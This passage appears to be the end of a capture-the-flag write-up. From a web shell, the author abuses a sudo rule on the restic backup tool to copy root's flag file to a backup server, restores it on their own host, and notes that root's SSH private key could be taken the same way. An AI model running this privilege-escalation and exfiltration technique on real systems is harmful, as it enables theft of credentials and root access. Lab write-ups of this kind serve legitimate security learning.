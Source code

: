 ### Last Step: Using www-data shell

```
$ echo 123 >/tmp/r

(123 is my password)

p0wny@shell:/tmp# sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8001/ -p /tmp/r /root/root.txt
/tmp/r /root/root.txt
scan [/root/root.txt]
[0:00] 0 directories, 1 files, 33B
scanned 0 directories, 1 files in 0:00
[0:01] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00

duration: 0:01
snapshot b9d28d7c saved
-------------------------------------------------------
```
### Restoring from the snapshot

```
root@w0lf:/tmp/restic/snapshots# restic -r /tmp/restic/ restore b9d28d7c --target /tmp/restic/
enter password for repository: 
repository 41f82a77 opened successfully, password is correct
created new cache in /root/.cache/restic
restoring [Snapshot b9d28d7c of [/root/root.txt] at 2020-04-04 19:37:22.586614963 +0000 UTC by root@bolt](Snapshot b9d28d7c of [/root/root.txt] at 2020-04-04 19:37:22.586614963 +0000 UTC by root@bolt) to /tmp/restic/




root@w0lf:/tmp/restic# cat root.txt 
nt------------------------------gw
root@w0lf:/tmp/restic# 
```

Like this we can take backup of the root's ssh private key and login as root.
